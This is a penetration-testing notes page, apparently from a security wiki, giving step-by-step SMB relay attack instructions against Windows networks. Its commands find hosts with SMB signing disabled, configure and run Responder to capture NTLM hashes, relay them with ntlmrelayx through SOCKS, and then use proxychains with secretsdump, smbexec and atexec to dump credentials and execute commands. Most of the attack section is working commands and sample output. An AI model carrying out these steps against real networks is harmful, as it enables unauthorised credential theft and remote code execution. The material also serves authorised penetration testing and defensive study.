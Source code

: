 # SMBRelay

## Brief

Instead of cracking hashes to find the clear password, you can relay those hashes to specific machines and potentially gain access.&#x20;

{% embed url="https://www.netwrix.com/pass_the_hash_attack_explained.html" %}

**Now, this attack requires two things :**

* **SMB signing must be disabled on the target** (_NOTE: by default, SMB Signing is enabled on all DC servers_)
* **Relayed user credentials must be admin** on the machine (we can't relay the hash to the same machine since MS08-068, and the user we're relaying must have admin rights on the target machine if we want code execution otherwise user access if there's an open-share for example)

## Attack

In order to relay hashes, we must **have valid targets**. Valid targets are, as predescribed, machines with SMB Signing disabled. So to get a list of those valide targets we can use for example CrackMapExec :

```bash
nxc smb $network_ip/$cidr --gen-relay-list Targets.txt
# or
nmap --script=smb2-security-mode.nse -p445 $network_ip
```

Now off to **capture the hashes**, but we first need to change a little configuration in the responder.conf file (_/usr/share/responder/responder.conf_) :

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On

# then :
python responder.py -I $interface -rdwv

# pop new shell
# ntlmrelayx to relay the intercepted hashes
ntlmrelayx.py -tf Targets.txt -socks -smb2support

# output should be like :
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       192.168.48.38   VULNERABLE/NORMALUSER3    445
MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433
SMB       192.168.48.230  VULNERABLE/ADMINISTRATOR  445
SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
SMTP      192.168.48.224  VULNERABLE/NORMALUSER3    25
SMTP      192.168.48.224  CONTOSO/NORMALUSER1       25
IMAP      192.168.48.224  CONTOSO/NORMALUSER1       143
```

### Interact with ntmlrelayx sessions

#### Proxychains

```bash
# edit /etc/proxychains.conf
[ProxyList]
socks4 $your_ip 1080
```

#### Retrieve hashes

```bash
proxychains ./secretsdump.py $domain/$username@$ip
# or get code execution
proxychains smbexec.py $domain/$user@$ip
proxychains atexec.py $domain/$user@$ip "<cmd>"
```
